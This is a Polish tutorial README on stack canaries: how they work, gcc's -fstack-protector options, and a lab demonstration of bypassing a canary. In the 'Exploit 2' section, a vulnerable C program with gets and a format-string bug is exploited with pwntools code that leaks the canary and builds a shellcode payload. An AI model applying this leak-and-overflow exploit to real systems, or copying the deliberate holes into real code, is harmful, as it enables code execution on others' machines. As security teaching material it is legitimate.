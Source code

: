 # Canary
## Opis
`Stack Canary` jest metodą zabezpieczania stosu. Polega ona na umieszczeniu na stosie przed adresem powrotu losowo generowanej wartości. Przed wykonaniem instrukcji `ret` sprawdzana jest wartość kanarka. Jeżeli została zmodyfikowana działanie programu jest zatrzymywane z błęden `stack smashing detected`.

Wartość kanarka z reguły kończy się bajtami `\x00` - znakiem końca stringa. Ma to na celu utrudnienie wycieku.

Kanarek może być generowany na różne sposoby. Wyróżnia się 3:

 - `Terminator canaries` - kanarki składające się ze znaków typu `\x00`, `CR`, `LF`, `\xFF`. Ma on na celu utrudnienie nadpisania atakującemu poprzez wykorzystanie `terminator chars` - znaków zakańczających działanie funkcji które mogły by być użyte w exploicie.
 - `Random canaries` - wartość kanarka jest całkowicie losowa (generowana za pomocą `entropy-gathering daemon`). Aby atakujący nie mógł poznać wartośći kanarka zmienna globalna w której przechowywany jest porównawczy kanarek jest oddzielona kilkoma niemapowanymi stronami od reszty pamięci.
 - `Random XOR canaries` - Jest to `Random Canary` z tym że jego wartości zostały wymieszane operacją `XOR` z wartościami kontrolnymi zawartymi w programie. Jest on trudniejszy do złamania niż zwykły `Random Canary` ponieważ atakujący musi poznać jeszcze wartości kontrolne oraz algorytm mieszania.

Sprawdzenie wartości kanarka wygląda następująco:

![](https://i.imgur.com/1Nc7LFg.png)

Kanarek ładowany jest do rejestru eax, następnie odejmowana jest wartość porównawcza `gs:0x14`. Jeśli wartości były równe w rejestrze `eax` zostanie wartość 0 i skok `je` ominie `call` zakańczający program. Potem nastąpi zwykły powrót z funkcji.

## Clang i GCC

W obydwu kompilatorach defaultowa opcja kanarka jest zależna od wersji gcc - na niektórych dystrybucjach linuxa np. arch, OpenBSD kompilatory domyślnie używają kanarka, a na niektórych nie np. kali. Podobnie zachowuje się kompilator intela - [link](https://software.intel.com/content/www/us/en/develop/documentation/cpp-compiler-developer-guide-and-reference/top/compiler-reference/compiler-options/compiler-option-details/data-options/fstack-protector.html).

W gcc możliwe opcje kanarka to:

 - `fstack-protector` - kompilator używa kanarka dla funkcji używającyh `alloca()` lub z bufforami > 8
 - `-fstack-protector-all` - kompilator używa kanarka dla wszystkich funkcji
 - `-fstack-protector-strong` - `fstack-protector` + funkcje z lokacnymi tablicami oraz odniesieniami do ramki stosu (liczą się tylko zmienne faktycznie trafiające na stos, kompilator nie bierze pod uwagę tych wyoptymalizowanych lub przechowywanych w rejestrach)
 - `-fstack-protector-explicit` - kompilator używa tylko kanarka dla funkcji z atrybutem `stack_protect`

[Dokumentacja gcc](https://gcc.gnu.org/onlinedocs/gcc-11.1.0/gcc/Instrumentation-Options.html#Instrumentation-Options) nie specyfikuje domyślnego zachowania, ale z przeprowadzonego przeze testu wynika że na kali kanarek jest domyślnie wyłączony.

### Test
Kompilowana aplikacja:

```{c}
#include <stdio.h>
#include <stdlib.h>

void func() {
  char input[512];
  char *buff=alloca(10);

  printf("Please enter your name: \n");
  fgets(input,512,stdin);
  fgets(buff,10,stdin);
  printf("Hi %s\n", input);
  printf("%s\n", buff);
}

int main() {
  func();
  return 0;
}
```

Sprawdzenie za pomocą narzędzia checksec:

![](https://i.imgur.com/ukniQRh.png)

Moja wersja gcc: `gcc (Debian 10.2.1-6) 10.2.1 20210110`

## Exploit 1
Pierwszy exploit został opisany w `/execution_disable/README.md`

### Exploitacja

W przypadku kompilacji bez kanarka exploit działa:

![](https://i.imgur.com/ft0Hdvu.png)

W przypadku kompilacji z kanarkiem otrzymujemy błąd `*** stack smashing detected ***`: 

![](https://i.imgur.com/DNWM77u.png)


## Exploit 2
Aby ominąć kanarka trzeba najpierw wyleakować jego wartość, aby potem móc ją spowrotem umieścić na stosie. Potrzebny do tego celu jest drugi buffor którym można to osiągnąć.

### Podatna aplikacja

```c
#include <stdio.h>
#include <stdlib.h>

void func() {
  char input[16];
  char leak[32];

  // canary leak
  gets(leak);
  printf(leak);
  printf("\n");

  printf("Please enter your name: \n");
  gets(input);

  printf("Hi %s\n", input);
}

int main() {
  func();
  return 0;
}
```

### Krok 1 - leak

Krokiem 1 jest sprawdzenie lokalizacji kanarka na stosie.

Sprawdzenie kanarka:

![](https://i.imgur.com/gUssRyd.png)

Widzimy że kanarek znajduje się pod adresem `ebp -0x8`

Stos:

![](https://i.imgur.com/ZxWOceW.png)

Na stosie widzimy adres kanarka oraz adres który pomoże ustalić nam adres pod którym wstawimy nasz shellcode.

Dalej wykorzystując string `%pozycja_na_stosie$x` możemy spróbować odgadnąć pozycje kanarka:

![](https://i.imgur.com/8O3lIfA.png)

![](https://i.imgur.com/V1tRkzy.png)

Po naszym strzale wiemy że kanarek znajduje się 4 adresy dalej - na pozycji 19. Adres z pozycji 17 jest stały więc również będzie celem leaku.

```python
payload1 = "-%17$x-%19$x"
p.sendline(payload1)
resp = p.recvline().decode().split("-")
b_addr = int(resp[1], 16)
canary = int(resp[2], 16)
```

Powyższy skrypt pobierze automatycznie wartości kanarka oraz stałego adresu.

### Krok 2 - odczytanie wartości kanarka i budowa payload'u


```python
payload = b"a"*48
payload += p32(canary)
payload += b"a"*12
payload += p32(b_addr-0xc8+20)
payload += asm(shellcraft.sh())
```

W payloadzie sklejamy `offset` równy długości obydwu bufforów, `kanarka`, `offset_ebp` długości 12 znaków, `adres shellcode'u` i `shellcode`.

Wykonanie exploita:

![](https://i.imgur.com/Q2svgas.png)

## Wnioski 

Kanarek jest dobrą metodą ochrony przed BOF. Powinien być domyślnie włączony na funkcjach z bufforem.
